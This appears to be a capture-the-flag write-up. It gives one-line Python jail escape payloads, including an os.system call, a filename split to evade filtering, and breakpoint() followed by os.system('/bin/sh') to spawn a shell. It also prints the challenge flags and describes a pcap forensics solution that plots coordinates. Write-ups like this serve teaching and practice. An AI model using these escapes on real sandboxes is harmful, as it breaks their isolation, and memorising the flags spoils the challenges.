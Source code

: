 Pyjail 1: `__builtins__.__dict__['__import__']('os').__dict__['system']('ls')`

Pyjail 2&3: `print([l.strip() for l in open("f"+"lag.tx"+"t")])`

### Unintended solution

enter `breakpoint()`, this will lead to you into a python console, then you can do what ever you want. For example, use `import os;os.system("/bin/sh")` to spawn a shell.


### flag

- maple{welc0m3_to_the_w0rlD_oF_cod3_j4ilz}
- maple{pyth0n_0n3_lInerz_UwU}
- maple{Did_u_kn0w_that_d0lph1ns_sl33p_with_one_eye_open}

---

## Hijacked

the problem give you an `wireshark.pcap` file. Load this file into wireshark. You will find 4 suspicious http request. 4 http request contains a list of three number. 

```
49.26391,-123.21524,94.38
49.26392,-123.21460,94.09
49.26390,-123.21343,92.47
....
```

looks very like latitude and longtitude, so put all the number into an excel and draw the graph (and horizontal flip) to get the flag

![hijacked.png](./uploads/hijacked.png)
